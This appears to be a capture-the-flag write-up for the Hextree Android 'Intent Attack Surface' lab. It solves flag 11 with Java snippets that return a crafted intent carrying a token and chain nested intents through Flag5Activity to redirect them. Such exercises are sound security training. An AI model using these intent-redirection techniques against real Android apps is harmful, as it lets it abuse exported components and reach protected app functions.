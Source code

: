 Like the previous Activity this will send and and intent on receiving empty intent But now it will start it while waiting for results , The Intent need to have `token` as extra with value `1094795585` 

#### Solution
The xml is same as before and we can reuse the same intent (which we received from activity11)  and click on the flag11 from the app (Intent Attack Surface)

```java
    Intent recivedIntent = getIntent();  
    Utils.showDialog(this,recivedIntent);  
  
    //to return a result  
    recivedIntent.putExtra("token",1094795585);  
    setResult(RESULT_OK, recivedIntent);  
    finish()
```

or take the long hard path

This was tricky as the intent received was empty but that is maybe due to some problem from my side so i decided to separate into 2 activities (1 to start request & the other to receive and resend intent )

but i ran into problems like flag10 and because the flags i added it deleted the instance of activity11 so even if i called it and it sent me an intent i can't return it to that specific instance cuz it was closed so to solve it i added same flag so that even if it was closed it will be activated again

i added the finish method to close these activities as they stop and but the instance of activity 11 & 5 in background and to send the result back

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag11Activity"));  
intent3.putExtra("reason","next");  
intent3.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(  
        "io.hextree.attacksurface",  
        "io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  
intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP | Intent.FLAG_ACTIVITY_SINGLE_TOP);  
startActivity(intent);  
finish();
```
